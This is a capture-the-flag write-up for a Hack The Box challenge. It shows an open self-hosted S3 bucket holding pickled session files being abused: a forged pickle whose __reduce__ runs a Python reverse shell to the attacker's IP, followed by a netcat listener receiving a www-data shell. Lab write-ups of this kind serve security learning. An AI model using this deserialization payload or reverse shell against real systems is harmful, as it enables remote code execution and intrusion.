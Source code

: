 ## Supply

```bash
$ nmap -sS -sV -Pn -p- -T5 -n 10.129.173.190

Nmap scan report for 10.129.173.190
Host is up (0.022s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

For this challenge, we were presented a login page, and a feature to sign in as guest on the web application:

![Login page](./img/supply_1.png)

By browsing to the home page of the web application, we noticed some assets were not loading as it was using a custom domain name:

```bash
$ curl http://10.129.173.190/ -s | grep 's3.' -C3
  <title>Project Management Portal</title>
  
  
  <link rel='stylesheet' href='http://s3.supply.htb/assets/css/bootstrap.min.css'>
  <script src="http://s3.supply.htb/assets/js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js"></script>
<style>
body {
  background-color: black;
```

We checked what was hosted on the same machine but for the assets' virtual host `s3.supply.htb`:

```bash
$ curl http://10.129.173.190 -H "Host: s3.supply.htb" -v
*   Trying 10.129.173.190:80...
* Connected to 10.129.173.190 (10.129.173.190) port 80 (#0)
> GET / HTTP/1.1
> Host: s3.supply.htb
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 404 
< Server: hypercorn-h11
< content-type: text/html; charset=utf-8
< content-length: 21
[...]
< 
* Connection #0 to host 10.129.173.190 left intact
{"status": "running"}
```

We saw it was a self-hosted AWS platform as it was for the Cloud challenge `Theta`. We then listed all the enabled features:

```bash
$ curl http://10.129.173.190/health -H "Host: s3.supply.htb" -v
*   Trying 10.129.173.190:80...
* Connected to 10.129.173.190 (10.129.173.190) port 80 (#0)
> GET /health HTTP/1.1
> Host: s3.supply.htb
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Server: hypercorn-h11
[...]
< 
* Connection #0 to host 10.129.173.190 left intact
{"services": {"s3": "running"}, "features": {"persistence": "initialized", "initScripts": "initialized"}}
```

We then checked if an anonymous access was granted to the `s3` bucket:

To do so, we added a line to our `/etc/hosts` file for the virtual host `s3.supply.htb` and we used the `AWS` cli:

```bash
$ aws configure

AWS Access Key ID [None]: a
AWS Secret Access Key [None]: a
Default region name [None]: a
Default output format [None]: json

$ aws s3 --endpoint-url http://s3.supply.htb ls

2021-07-26 23:47:41 assets
```

Once we noticed we could list the hosted files, we downloaded all the files by using the `sync` command:

```bash
$ aws s3 --endpoint-url http://s3.supply.htb sync s3://assets .
download: s3://assets/js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js to js/stopExecutionOnTimeout-8216c69d01441f36c0ea791ae2d4469f0f8ff5326f00ae2d00e4bb7d20e24edb.js
download: s3://assets/vendor/autoload.php to vendor/autoload.php  
[...]
download: s3://assets/vendor/composer/platform_check.php to vendor/composer/platform_check.php
download: s3://assets/vendor/composer/autoload_psr4.php to vendor/composer/autoload_psr4.php
download: s3://assets/css/bootstrap.min.css to css/bootstrap.min.css 
download: s3://assets/vendor/composer/autoload_static.php to vendor/composer/autoload_static.php
download: s3://assets/vendor/composer/installed.json to vendor/composer/installed.json
[...]
```

Apart from the web assets (minified css and javascript files), we saw nothing that was used by the web application.

By playing a bit with the login feature of the web application, we noticed a new folder was created on the bucket and that sessions were stored on the `s3` bucket:

```bash
$ aws s3 --endpoint-url http://s3.supply.htb ls assets/
                           PRE css/
                           PRE js/
                           PRE sessions/
                           PRE vendor/
                           
$ aws s3 --endpoint-url http://s3.supply.htb sync s3://assets .
download: s3://assets/sessions/c32d3081-d9ee-4c0b-9f05-fe402cbf1138 to sessions/c32d3081-d9ee-4c0b-9f05-fe402cbf1138
```

```bash
$ xxd c32d3081-d9ee-4c0b-9f05-fe402cbf1138
00000000: 8004 9525 0000 0000 0000 007d 9428 8c08  ...%.......}.(..
00000010: 7573 6572 6e61 6d65 948c 0567 7565 7374  username...guest
00000020: 948c 0870 6173 7377 6f72 6494 6802 752e  ...password.h.u.
```

The sessions content looked-like serialized data. We then tried to decode them using [pickletools](https://docs.python.org/3/library/pickletools.html):

```bash
$ python3 -m pickletools c32d3081-d9ee-4c0b-9f05-fe402cbf1138 
    0: \x80 PROTO      4
    2: \x95 FRAME      37
   11: }    EMPTY_DICT
   12: \x94 MEMOIZE    (as 0)
   13: (    MARK
   14: \x8c     SHORT_BINUNICODE 'username'
   24: \x94     MEMOIZE    (as 1)
   25: \x8c     SHORT_BINUNICODE 'guest'
   32: \x94     MEMOIZE    (as 2)
   33: \x8c     SHORT_BINUNICODE 'password'
   43: \x94     MEMOIZE    (as 3)
   44: h        BINGET     2
   46: u        SETITEMS   (MARK at 13)
   47: .    STOP
highest protocol among opcodes = 4
```

From there, we replaced the serialized data with a reduced function that would execute a reverse shell during the deserialization process:

```bash
$ cat forge_session.py

import pickle
import base64
import os

class RevShell:
    def __reduce__(self):
        cmd = ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.65", 9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")')
        return exec, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dump(RevShell(), protocol=2, file=open('fd9db610-e957-4a8e-a877-a1bae508805c', 'wb'))
```

Then, we uploaded the new session file to the bucket:

```bash
$ python3 forge_session.py 

$ aws s3 --endpoint-url http://s3.supply.htb cp fd9db610-e957-4a8e-a877-a1bae508805c s3://assets/sessions/fd9db610-e957-4a8e-a877-a1bae508805c
upload: ./fd9db610-e957-4a8e-a877-a1bae508805c to s3://assets/sessions/fd9db610-e957-4a8e-a877-a1bae508805c
```

Finally, we triggered the Python deserialize code by requesting the `/home` page of the web application and by specifying our malicious session id:

```bash
GET /home HTTP/1.1
Host: 10.129.173.190
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=fd9db610-e957-4a8e-a877-a1bae508805c
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


HTTP/1.1 302 FOUND
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 208
Location: http://10.129.173.190/
Connection: close
Content-Type: text/html; charset=utf-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>. If not click the link.
```

Once the session was deserialized, we received a connect-back from the Python reverse shell:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.173.190] 38980
www-data@supply:/$ id     	
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@supply:/$ cat /opt/flag.txt
cat /opt/flag.txt
HTB{0p3n_aws_s3ssion_f1l3_st0rag3==rc3_pwn4g3}
```

